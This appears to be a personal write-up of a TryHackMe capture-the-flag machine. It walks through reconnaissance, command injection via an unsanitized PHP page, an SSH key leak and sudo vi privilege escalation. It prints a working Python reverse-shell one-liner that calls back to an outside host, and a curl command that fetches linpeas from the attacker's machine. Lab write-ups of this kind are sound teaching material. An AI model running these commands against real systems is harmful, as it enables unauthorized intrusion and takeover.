After a long exam period, I have finally started to analyze all the TryHackMe machines again. Let me start with embedding our ip address to customized domain named willy.thm.
nano /etc/hosts

Start with curl instead of browser to understand port 80 & 443 response. It is likely more efficient way compared to manual browser approach.
curl -v willy.thm

Manual ways are always great method in web applications. Instead of analyzing entire code, I can reveal (if there is something) more accurate:

Wappalyzer result:

I have tried a couple of default user:pass combinations ,but it did not work. We two options from that part:
Since Fuzzing is more straightforward and achievable at first, I will shift to detect the Endpoints initially.
Run the command I gave you in below:
dirsearch -u willy.thm

First of all, I analyzed /index.php.bak with the help of the mousepad tool. I will show you the source code analysis step by step:
Directly move the correlated endpoint /index.php.bak then it automatically downloads it then rename it as index.php:
mv index.php.bak index.php
Run mousepad with index.php:
mousepad index.php
Thanks to online compiler, I successfully rendered the page:

As you can see here we have a command-line interface and execution button. However, $cmd variable directly written as it is. There is no sanitization embedded on variable.
Whitelisting is great approach for sanitization part. Let me show you how you can achieve:
``` POST['command'])) { $cmd = $POST['command'];
$allowed_commands = ['ls', 'pwd', 'whoami'];
if (in_array($cmd, $allowed_commands)) {
echo htmlspecialchars(shell_exec($cmd));
} else {
echo "Command not allowed!";
}
} ?> ```
htmlspecialchars() for XSS sanitization
$allowed_commands for limited command usage
(optional)
only include POST requests:
if($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['command']))
Let's try common commands on the command field:

The command directly executed within the onecompiler.com ,so it prevented me to execute it because it has already sanitized on the target. Let's check other path revealed on dirsearch home.php. I encountered the same page and run ls command on input:


As you can see here, page rendered as I expected. Reach out other command outputs below:
which python:

whoami:

pwd:

Finally, nmap can be suitable for us to reach anything we did not see yet.
Basic scan will be enough to discover what we do not know so far:
nmap -sV -sC willy.thm

Machine directly tells the endpoint key_rev_key path and downloads the file then reach the content of the file with cat command:
cat key_rev_key
Now there was a key leak on this file in the last lines:

Let's move on privilege escalation part !
For the exploitation, Web Shell is a shortest solution for us to handle the session between LHOST and RHOST. Let me get reverse shell by injecting reverse shell payload:
Since we already knew the occurence of python binary. Using python reverse shell is suitable ,but you can also apply bash reverse shell. Python shell indirectly embeds the Bourne Shell not Bourne Against Shell.
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

I got the reverse shell. I examined each step in a detailed way. Do not forget to check the image that I provided you. Now let's try to enhance our shell to upgrade highly compatible /bin/bash + rlwrap to make accessible to command history.
rlwrap python -c 'import pty; pty.spawn("/bin/bash")'

The target does not consist of rlwrap binary ,so let's directly upgrade shell.
Now we can observe that we successfully upgraded our shell with the help of the command that I described above.

First indicator was the initial cursor. It has replaced its status with our current directory. The warning message is a default message.
Findings about OS:
uname -a
Linux chocolate-factory 4.15.0-115-generic #116-Ubuntu SMP Wed Aug 26 14:04:49 UTC 2020 x8664 x8664 x86_64 GNU/Linux
Reach user flag from /home/charlie default user directory.

Still I cannot reach user flag with the permissions of www-data webserver's permissions. However, there was a file located in /home/charlie called teleport.pub then containing a SSH keypair of the charlie. Therefore, it may suitable to try authenticate as charlie.
This is what we need to authenticate as charlie:

ssh -i [somename] user@[IPv4]
or
ssh -i [somename] [IPv4]
Now I got unprotected permission ,so give 600 permissions to target. Since we have protected file it requires lower permissions:

Yes ! ! !

At first, I was not able to read the content of validate.php let's also read that one

Done ! ! !
There was a password shown here ,so I have already discovered the open endpoint which is home.php. Obviously, I could not find anything on machine to make myself root. Therefore, linpeas may help me to escalate my privileges to root.
Steps to send linpeas to target:
python -m http.server [desired port]
On the target machine run the following:
curl -O http://[TUN0_IP]:[LPORT]/linpeas.sh
After that I encounter with this:

I captured the most important part of the linpeas output. Do not forget that orange ones indicating critical vulnerabilities.
As you can see on the sudo -l part, charlie can run vi command with root privileges ,so let's move on Get The Fuck Out Binaries.
I used vi binary's privilege escalation vector:


Reach the root path to find the flag ,but there was a python file requiring us to give base64 encoded passphrase.

Let me try to use:
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

DONE !
May The Pentest Be With You ! ! !